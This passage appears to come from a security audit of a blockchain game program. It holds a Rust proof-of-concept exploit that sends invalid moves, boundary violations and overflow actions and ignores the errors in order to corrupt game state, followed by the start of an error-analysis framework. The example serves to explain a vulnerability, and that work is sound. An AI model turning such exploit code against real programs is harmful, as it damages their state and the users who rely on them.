 #### 2. State Corruption Through Error Handling
```rust
// Exploit: Cause state corruption through poor error handling
pub struct StateCorruptionAttack {
    target: Pubkey,
}

impl StateCorruptionAttack {
    pub fn corrupt_game_state(&self) -> Result<()> {
        // Exploit silent failures to create inconsistent state
        let corrupted_actions = vec![
            self.create_invalid_move(),
            self.create_boundary_violation(),
            self.create_resource_overflow(),
        ];

        for action in corrupted_actions {
            // These calls may partially succeed due to poor error handling
            let _ = self.send_action(action);
        }

        // Verify state corruption occurred
        let current_state = self.query_game_state()?;
        assert!(self.is_state_corrupted(&current_state));

        Ok(())
    }

    fn create_invalid_move(&self) -> PlayerAction {
        PlayerAction {
            action_type: ActionType::Move,
            position: Position { x: -1, y: -1 }, // Invalid coordinates
            timestamp: 0, // Invalid timestamp
        }
    }
}
```

## Advanced Analysis Framework

### Error Pattern Analyzer

```rust
#[derive(Debug)]
pub struct ErrorPatternAnalyzer {
    pattern_detection: PatternDetector,
    information_leak_scanner: InformationLeakScanner,
    consistency_checker: ConsistencyChecker,
    recovery_analyzer: RecoveryAnalyzer,
}

#[derive(Debug, Clone)]
pub struct ErrorAnalysisReport {
    detected_patterns: Vec<ErrorPattern>,
    information_leaks: Vec<InformationLeak>,
    consistency_violations: Vec<ConsistencyViolation>,
    recovery_gaps: Vec<RecoveryGap>,
    severity_assessment: SeverityAssessment,
    remediation_priorities: Vec<RemediationPriority>,
}

#[derive(Debug, Clone)]
pub struct ErrorPattern {
```